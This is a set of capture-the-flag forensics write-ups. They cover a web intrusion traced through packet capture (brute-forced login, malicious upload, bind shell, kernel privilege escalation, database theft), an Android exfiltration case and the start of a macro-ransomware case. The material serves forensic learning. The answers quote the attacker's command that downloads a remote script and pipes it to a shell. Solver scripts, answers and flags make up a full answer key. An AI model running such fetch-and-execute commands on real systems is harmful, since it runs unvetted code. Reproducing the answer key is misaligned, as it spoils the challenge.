These are my forensics write-ups from The ACE. Each section follows the solving process recorded during the investigation.

## Incident 1

### Executive Summary

This investigation followed an attacker from content discovery through an uploaded payload, local privilege escalation with Dirty Frag, and database exfiltration.

### Solution

```text
[Question 1]
```

Determine the IP addresses of the attacker and the victim in this incident.

(Answer format: ip_attacker:ip_victim)



I filtered HTTP traffic and found requests generated by ffuf.

```text
[Question 2]
```

After the enumeration phase, which port did the attacker focus the attack on?

(Answer format: number)



Following the HTTP stream revealed the port targeted during enumeration.

```text
[Question 3]
```

On that port, the attacker performed content discovery. Which tool was used?

(Answer format: toolname vX.X.X)


The User-Agent identified ffuf and its version.

```text
[Question 4]
```

Which valid path discovered during content discovery did the attacker use as the entry point for the next stage of the attack?

(Answer format: /path)



I used `http.response.code != 404` to find successful requests. One led to `/backend/login`; the required entry-point answer was `/backend`.

```text
[Question 5]
```

Through that entry point, the attacker targeted the login endpoint. How many failed password attempts were sent before the attacker logged in successfully?

(Answer format: number)



I filtered for `http.request.method == POST` and asked GPT to help count the failed attempts.

```text
[Question 6]
```

Which credential did the attacker successfully use to log in?

(Answer format: username:password)



The last POST request to `/backend/login` contained the successful credentials.

```text
[Question 7]
```

After gaining access, the attacker uploaded a file to abuse an existing feature. What is the name of that file?

(Answer format: filename with extension (e.g. file.ext))



The attacker uploaded a file to `/backend/backup/restore`. Its name in the request body was `evil.zip`.

```text
[Question 8]
```

That upload led to code execution. What type of shell did the attacker use to obtain interactive access?

(Answer format: lowercase, space-separated)





I initially thought this was a reverse shell. GPT suggested a bind shell after inspecting the stream, which was the accepted answer.

```text
[Question 9]
```

Which port was used for that shell session?

(Answer format: number)



The port appeared in the parameters passed to `shell.php`.

```text
[Question 10]
```

Through that session, the attacker began enumerating the host. What was the 5th command executed after obtaining the shell?

(Answer format: lowercase)



I filtered with `tcp.port == 4444` and identified the fifth command in the session.

```text
[Question 11]
```

Right after reading .env, the attacker tried to open another credential file but failed. What is the name of that file?

(Answer format: filename with extension (e.g. file.ext))



Following the TCP stream on port 4444 showed the failed attempt to read the file.

```text
[Question 12]
```

Unable to read that file as the current user, the attacker prepared to escalate privileges. What is the full command used to download and immediately execute a script? (copy it exactly as seen in the traffic)

(Answer format: full command)



In the same stream, the attacker downloaded LinPEAS after the access-denied response.

```text
[Question 13]
```

After that privilege-escalation enumeration, the attacker exploited a kernel vulnerability to become root. Which CVEs were chained in the exploit?

(Answer format: CVE-XXXX-XXXXX:CVE-XXXX-XXXXX)



After the LinPEAS output, the attacker cloned a Dirty Frag proof of concept. The submitted CVE pair was `CVE-2026-43284:CVE-2026-43500`.

```text
[Question 14]
```

Now running as root, the attacker finally read the previously inaccessible credential file and used it to export the database. What password was used?

(Answer format: string)



The same stream showed the attacker reading the credential file after gaining access.

```text
[Question 15]
```

The attacker then pulled the exported database off the server. At what time (in UTC) was the dumped file downloaded?

(Answer format: YYYY-MM-DD HH:MM:SS)



After privilege escalation, the attacker dumped the database to `/var/www/html/public/erp_download.sql`. I obtained the download timestamp from the HTTP GET request for `/erp_download.sql`.

```text
[Question 16]
```

With the database exported, the attacker now holds the personal data of the company's customers and employees. How many customer and employee records were exposed in total?

(Answer format: number)



I inspected the response containing `erp_download.sql` and counted the customer and employee records.

### Solver

`solve.py`

```python
from pwn import *
p = remote('34.47.176.25', 8027)
print(p.recvuntil(b'> ').decode())
answers = [
    '10.0.2.15:103.150.227.66',
    '8080',
    'ffuf v2.1.0',
    '/backend',
    '1279',
    'budi.santoso:poohbear1',
    'evil.zip',
    'bind shell',
    '4444',
    'cat .env',
    'db_backup.conf',
    'curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh',
    'CVE-2026-43284:CVE-2026-43500',
    'B@ckupM4ster!2026',
    '2026-05-28 04:34:25',
    '20'
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)
print(p.recvall().decode())
```

### Conclusion

It was good to work through a packet-capture investigation again.

### AI Disclosure

ChatGPT:

https://chatgpt.com/share/6a4e26a9-17c8-83ec-9cf9-e0f52ffc7f72

### Flag

```text
ACE{7c1f9e4a2b8d6f0c3e5a1d9b4f6e2c8a7d1f0b3e}
```

## seorang CEO

### Executive Summary

This Android investigation traced the exfiltration of files from the victim’s Downloads directory.

### Solution

The supplied MP3 contained an archive download link in its metadata. Extracting that archive revealed an Android internal-storage dump.

```text
[Question 1]
```

The DFIR team secured an Android device belonging to a coffee shop CEO. Which Google account was registered on the device?

Answer format: `email@example.com`



I checked `data/data/com.google.android.gm/databases`. One database filename contained the Gmail address.

```text
[Question 2]
```

Which phone number sent the message saying that the QR code was available to download?

Answer format: `08xxx...`



The question pointed to an SMS. I used a reference titled “Where on the file system are SMS messages stored?” to locate the message database, opened it in SQLite, and found the QR-code message and sender number.

```text
[Question 3]
```

According to the SMS, which folder contained the QR code?

Answer format: folder name in lowercase



The same SMS identified the folder.

```text
[Question 4]
```

Before the incident, the victim searched Google for ways to grow the business. What was the first search query?

Answer format: the exact query from the search history



I opened the Chrome package, `com.android.chrome`, and located the History database under `app_chrome`. Querying it in SQLite revealed the first search.

```text
[Question 5]
```

What key was used to decrypt the files?

Use the exact key value recorded in the recovered code.





The question did not identify a specific file. I found a suspicious package, `com.sebuahapel.kedai`, containing Python bytecode. I decompiled it with PyLingual and found the key in `service.pyc`.

```text
[Question 6]
```

Who had the highest salary at the coffee shop?

Answer format: full name in lowercase



The previous step pointed to `data/media/0/Download`. That directory contained `salary.xlsx`, which identified the highest-paid employee.

```text
[Question 7]
```

Who was responsible for the incident?

Answer format: the recovered code name



The earlier SMS mentioned a QR code in Downloads, but none was present in the archive. Since `service.pyc` exfiltrated that directory and exposed the destination URL, I moved to the PCAP. It contained files matching Downloads, along with many additional PNGs. I asked AI to help decrypt the transfers using the following script.

```python
#!/usr/bin/env python3
"""
Extract exfiltrated files from PCAP by directly parsing multipart data
and stripping the trailing CRLF that belongs to the framing.
"""

import argparse
import os
import re
import sys
from collections import defaultdict
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from scapy.all import rdpcap, IP, TCP, Raw

KEY = b'12345678901234567890123456789012'

def decrypt_data(encrypted: bytes) -> bytes:
    if len(encrypted) < 16:
        raise ValueError("Encrypted data too short")
    iv = encrypted[:16]
    ciphertext = encrypted[16:]
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    plain = cipher.decrypt(ciphertext)
    return unpad(plain, AES.block_size)

def reassemble_tcp_streams(pcap_file):
    """Reassemble TCP streams using scapy with correct offsets."""
    packets = rdpcap(pcap_file)
    streams = defaultdict(list)
    for pkt in packets:
        if IP not in pkt or TCP not in pkt or Raw not in pkt:
            continue
        ip = pkt[IP]
        tcp = pkt[TCP]
        payload = bytes(pkt[Raw])
        if not payload:
            continue
        key = (ip.src, tcp.sport, ip.dst, tcp.dport)
        streams[key].append((tcp.seq, payload))

    reassembled = {}
    for key, segments in streams.items():
        segments.sort(key=lambda x: x[0])
        if not segments:
            continue
        min_seq = segments[0][0]
        max_seq = max(seq + len(pay) for seq, pay in segments)
        size = max_seq - min_seq
        data = bytearray(size)
        for seq, payload in segments:
            offset = seq - min_seq
            data[offset:offset+len(payload)] = payload
        reassembled[key] = bytes(data)
    return reassembled

def extract_files_from_multipart(stream_data):
    """Extract (filename, encrypted_data) from a multipart stream."""
    # Find the first boundary line (starts with -- and contains only alnum, -, _)
    lines = stream_data.split(b'\r\n')
    boundary = None
    for line in lines:
        if line.startswith(b'--') and len(line) > 2:
            if re.match(rb'^--[A-Za-z0-9_-]+$', line):
                boundary = line
                break
    if not boundary:
        return []

    parts = stream_data.split(boundary)
    files = []
    for part in parts:
        if not part.strip():
            continue
        if part.endswith(b'--\r\n'):
            part = part[:-4]
        elif part.endswith(b'--'):
            part = part[:-2]
        if b'\r\n\r\n' not in part:
            continue
        headers_raw, content = part.split(b'\r\n\r\n', 1)

        filename_match = re.search(rb'filename="([^"]+)"', headers_raw)
        if not filename_match:
            continue
        filename = filename_match.group(1).decode('utf-8', errors='ignore')

        # Strip the trailing CRLF that belongs to the multipart framing
        if content.endswith(b'\r\n'):
            content = content[:-2]

        files.append((filename, content))
    return files

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('pcap', help='PCAP file')
    parser.add_argument('-o', '--output', default='extracted')
    args = parser.parse_args()

    os.makedirs(args.output, exist_ok=True)

    print(f"Reading {args.pcap} ...")
    streams = reassemble_tcp_streams(args.pcap)
    print(f"Found {len(streams)} TCP streams.")

    extracted = 0
    failed = 0

    for key, stream_data in streams.items():
        src_ip, sport, dst_ip, dport = key
        if dport != 5000:
            continue

        print(f"\nStream: {src_ip}:{sport} -> {dst_ip}:{dport}")

        files = extract_files_from_multipart(stream_data)
        if not files:
            print("  No multipart file found.")
            continue

        for filename, encrypted_data in files:
            out_path = os.path.join(args.output, os.path.basename(filename))
            try:
                plain = decrypt_data(encrypted_data)
                with open(out_path, 'wb') as f:
                    f.write(plain)
                print(f"  [OK] Saved: {out_path}")
                extracted += 1
            except Exception as e:
                print(f"  [FAIL] {filename}: {e}")
                raw_path = out_path + '.encrypted'
                with open(raw_path, 'wb') as f:
                    f.write(encrypted_data)
                print(f"        Raw encrypted saved to {raw_path}")
                failed += 1

    print(f"\nDone: {extracted} decrypted, {failed} failed.")

if __name__ == '__main__':
    main()
```

The PNGs were QR codes, each decoding to one character. I batch-decoded them with https://www.barcodeocean.com/qrcode-decoder#. Their combined output was nested Base64, which eventually decoded to `N0b0dYKn0w5`.



### Solver

`solve.py`

```python
from pwn import *
p = remote('34.47.176.25', 8031)
print(p.recvuntil(b'> ').decode())
answers = [
    'akusangceo1337@gmail.com',
    '08123456789',
    'download',
    'cara membuat cafe ramai',
    '12345678901234567890123456789012',
    'Indah',
    'N0b0dYKn0w5'
]
for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)
print(p.recvall().decode())
```

### Conclusion

This was a useful opportunity to work through Android artifacts.

### AI Disclosure

DeepSeek:

https://chat.deepseek.com/share/5cobchtuw1ka4ljq0c

### Flag

```text
ACE{1775dbc47ddee65c1a844a47fd6e344334f3869f}
```

## Incident 2

### Executive Summary

A macro in a DOCM file encrypted the victim’s files.

### Solution

The challenge provided an `.ad1` image and a series of questions.

```text
[Question 1]
```

What operating system version was installed on the affected workstation?

(Answer format: ProductName DisplayVersion build CurrentBuild.UBR)





I parsed the `SOFTWARE` hive using https://www.registryparser.com/en. The UBR value was still missing, so I opened `Microsoft\Windows NT\CurrentVersion` in Registry Explorer.

```text
[Question 2]
```

Who initiated the suspicious vendor payment request in this incident?

(Answer format: email address)





Since the question concerned email, I searched for `.eml` files. `Invoice.eml` contained the sender address.

```text
[Question 3]
```

What is the subject of the suspicious vendor payment request?

(Answer format: exact subject)



The subject was also in `Invoice.eml`.

```text
[Question 4]
```

What is the filename of the malicious document attached to the suspicious request?

(Answer format: filename with extension)

